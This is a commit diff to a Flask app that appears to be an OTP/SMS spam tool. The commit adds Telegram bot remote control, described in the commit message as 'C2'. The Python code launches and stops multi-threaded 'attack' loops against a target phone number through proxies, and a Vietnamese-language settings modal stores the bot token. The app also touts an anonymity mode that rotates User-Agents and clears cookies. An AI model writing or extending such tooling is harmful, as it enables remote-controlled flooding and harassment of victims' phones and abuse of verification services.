

Before and after one commit to Xiata279/D-An-OTP-, a Flask app: page / in a window 1280 px wide. Shown: the top 1037 px of the page at 94% size. Run offline with Flask 3, Linux system fonts and the light colour scheme.

Commit message:
Feature: Telegram C2 Bot Integration

```diff
--- a/app.py
+++ b/app.py
@@ -143,5 +143,71 @@ def reset_identity():
     add_log("IDENTITY RESET: Rotating User-Agents & Clearing Cookies...", "system")
     return jsonify({'status': 'success', 'message': 'Identity reset successfully'})
 
+# --- TELEGRAM BOT INTEGRATION ---
+TELEGRAM_BOT = None
+TELEGRAM_TOKEN = ""
+TELEGRAM_CHAT_ID = ""
+
+def start_telegram_bot_thread():
+    global TELEGRAM_BOT
+    if not TELEGRAM_TOKEN:
+        return
+
+    import telegram_bot
+
+    # Callbacks for the bot to control the app
+    def bot_start_attack(phone, delay, threads, proxies, mode):
+        # We need to simulate the start_spam logic but internal
+        global SPAM_RUNNING, SPAM_THREADS, STATS
+        if SPAM_RUNNING:
+             return {"status": "error", "message": "System is already running!"}
+
+        STATS = {"sent": 0, "success": 0, "fail": 0, "threads": threads, "running": True}
+        SPAM_RUNNING = True
+        SPAM_THREADS = []
+        for i in range(threads):
+            t = threading.Thread(target=spam_loop_task, args=(phone, delay, proxies, mode))
+            t.daemon = True
+            t.start()
+            SPAM_THREADS.append(t)
+        add_log(f"[Telegram] Started attack on {phone}", "system")
+        return {"status": "success", "message": f"Attack started on {phone}"}
+
+    def bot_stop_attack():
+        global SPAM_RUNNING
+        if not SPAM_RUNNING:
+             return {"status": "error", "message": "Not running"}
+        SPAM_RUNNING = False
+        STATS["threads"] = 0
+        add_log("[Telegram] Stopped attack", "system")
+        return {"status": "success", "message": "Attack stopped"}
+
+    def bot_get_status():
+        s = STATS.copy()
+        s['running'] = SPAM_RUNNING
+        return s
+
+    try:
+        TELEGRAM_BOT = telegram_bot.Spambot(TELEGRAM_TOKEN, bot_start_attack, bot_stop_attack, bot_get_status)
+        t = threading.Thread(target=TELEGRAM_BOT.start)
+        t.daemon = True
+        t.start()
+        add_log("Telegram Bot connected!", "system")
+    except Exception as e:
+        add_log(f"Telegram Bot Error: {e}", "error")
+
+@app.route('/api/telegram_config', methods=['POST'])
+def telegram_config():
+    global TELEGRAM_TOKEN, TELEGRAM_CHAT_ID
+    data = request.json
+    TELEGRAM_TOKEN = data.get('token')
+    TELEGRAM_CHAT_ID = data.get('chat_id')
+
+    # Restart bot with new token
+    start_telegram_bot_thread()
+
+    return jsonify({'status': 'success', 'message': 'Telegram Settings Saved!'})
+
 if __name__ == '__main__':
+    # Try to load saved config if we had file persistence, but for now just wait for UI
     app.run(debug=True, port=5000)
--- a/requirements.txt
+++ b/requirements.txt
@@ -1,2 +1,3 @@
 requests
 flask
+pyTelegramBotAPI
--- a/static/js/main.js
+++ b/static/js/main.js
@@ -275,4 +275,63 @@ document.addEventListener('DOMContentLoaded', () => {
 
     // Restore delay value
     const savedDelay = localStorage.getItem('spam_delay');
+    if (savedDelay) {
+        document.getElementById('delaySlider').value = savedDelay;
+        document.getElementById('delayValue').textContent = `${parseFloat(savedDelay).toFixed(1)}s`;
+    }
 });
+
+// Telegram Modal Functions
+function openTelegramModal() {
+    document.getElementById('telegramModal').style.display = "block";
+    // Load saved settings
+    const token = localStorage.getItem('tele_token') || '';
+    const chatId = localStorage.getItem('tele_chat_id') || '';
+    document.getElementById('teleToken').value = token;
+    document.getElementById('teleChatId').value = chatId;
+}
+
+function closeTelegramModal() {
+    document.getElementById('telegramModal').style.display = "none";
+}
+
+// Close modal if clicked outside
+window.onclick = function (event) {
+    const modal = document.getElementById('telegramModal');
+    if (event.target == modal) {
+        modal.style.display = "none";
+    }
+}
+
+async function saveTelegramConfig() {
+    const token = document.getElementById('teleToken').value;
+    const chatId = document.getElementById('teleChatId').value;
+
+    if (!token) {
+        alert("Vui lòng nhập Token Bot!");
+        return;
+    }
+
+    // Save to local storage
+    localStorage.setItem('tele_token', token);
+    localStorage.setItem('tele_chat_id', chatId);
+
+    try {
+        const response = await fetch('/api/telegram_config', {
+            method: 'POST',
+            headers: { 'Content-Type': 'application/json' },
+            body: JSON.stringify({ token: token, chat_id: chatId })
+        });
+        const data = await response.json();
+
+        if (data.status === 'success') {
+            appendLog('TELEGRAM: ĐÃ LƯU CẤU HÌNH', 'success');
+            closeTelegramModal();
+        } else {
+            appendLog('LỖI LƯU CẤU HÌNH TELEGRAM', 'error');
+        }
+    } catch (error) {
+        console.error(error);
+        appendLog('LỖI KẾT NỐI MÁY CHỦ', 'error');
+    }
+}
--- a/templates/index.html
+++ b/templates/index.html
@@ -109,6 +109,9 @@
                 <button id="btnGhost" class="btn-icon ghost" onclick="activateGhostMode()" title="Chế độ Ẩn Danh">
                     <i class="fa-solid fa-ghost"></i> Ẩn Danh
                 </button>
+                <button class="btn-icon" onclick="openTelegramModal()" title="Cài đặt Telegram">
+                    <i class="fa-brands fa-telegram"></i> Tele
+                </button>
             </div>
 
             <!-- Visualizer -->
@@ -176,6 +179,29 @@
 
     </div>
 
+    <!-- Telegram Settings Modal -->
+    <div id="telegramModal" class="modal">
+        <div class="modal-content">
+            <span class="close-modal" onclick="closeTelegramModal()">&times;</span>
+            <h2><i class="fa-brands fa-telegram"></i> CẤU HÌNH TELEGRAM</h2>
+            <div class="input-group">
+                <label>BOT TOKEN</label>
+                <div class="holo-input">
+                    <input type="text" id="teleToken" placeholder="Nhập Token của Bot...">
+                </div>
+            </div>
+            <div class="input-group" style="margin-top: 15px;">
+                <label>CHAT ID</label>
+                <div class="holo-input">
+                    <input type="text" id="teleChatId" placeholder="Nhập Chat ID của bạn...">
+                </div>
+            </div>
+            <button class="holo-btn start" style="width: 100%; margin-top: 20px;" onclick="saveTelegramConfig()">
+                LƯU CẤU HÌNH
+            </button>
+        </div>
+    </div>
+
     <script src="{{ url_for('static', filename='js/main.js') }}?v=god_mode_v4.1"></script>
 </body>
 
```
Also changed, not shown: telegram_bot.py (added, +55 -0 lines).
